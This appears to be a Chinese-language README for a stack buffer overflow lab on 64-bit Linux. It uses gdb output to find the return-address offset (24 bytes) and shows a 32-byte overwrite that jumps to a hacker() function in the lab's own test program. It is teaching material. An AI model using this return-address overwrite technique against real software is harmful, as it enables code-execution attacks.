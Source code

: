 # stack flow hacker
## 基础知识点:
64位系统
- 压栈顺序基本为：参数从右到左（不过64位系统参数用寄存器保存），下条指令地址作为返回地址，原调用栈rbp
接着就是被调用函数的rbp位置，rsp-0xxxx给被调用函数栈利用，包括被调用函数局部变量。
- 原理：
要是能够利用栈溢出bug覆盖栈里的返回地址，变成我自己想要执行的code地址。
## 整个实验分成了3步骤,由简入深:
- 修改返回地址eip值,执行函数hacker()
1. test.c里的hacker函数:
``` asm
进入func函数，反汇编代码：

   0x00000000004005dd <+0>:	push   %rbp
   0x00000000004005de <+1>:	mov    %rsp,%rbp
   0x00000000004005e1 <+4>:	sub    $0x20,%rsp
   0x00000000004005e5 <+8>:	mov    %rdi,-0x18(%rbp)
=> 0x00000000004005e9 <+12>:	movl   $0x0,-0x10(%rbp)
   0x00000000004005f0 <+19>:	mov    -0x18(%rbp),%rcx

 寄存器：
 (gdb) x/10x $rbp
0x7fffffffe500:	0xffffe550	0x00007fff	0x004006b2	0x00000000
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535
局部变量(gdb) p	&str
$2 = (char (*)[4]) 0x7fffffffe4f0
```
可见从str地址0x7ffffffe4f0到调用函数下条地址即返回地址0x7ffffffe508总共ox18，也就是24（换台机器可能就不是这个值），所以test.c确定pEIP地址的时候是数组的第24位。
2. 再就是如何确定拷贝多少字节:
``` gdb
查看shellcode的内存情况：
(gdb) p	shellcode
$4 = 0x7fffffffe510 "111111112222333344445555\033\006@"
(gdb) x/10x 0x7fffffffe510
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535	0x0040061b	0x00000000
0x7fffffffe530:	0x38383838	0x39393939
```
所以现在是将地址0x7fffffffe510内容复制到0x7fffffffe4f0，如果复制32字节，恰好将从0x7fffffffe4f0到返回地址的内容全部覆盖掉，不会出现覆盖重叠，
可以得到预期的结果，顺利的调到hacker函数。
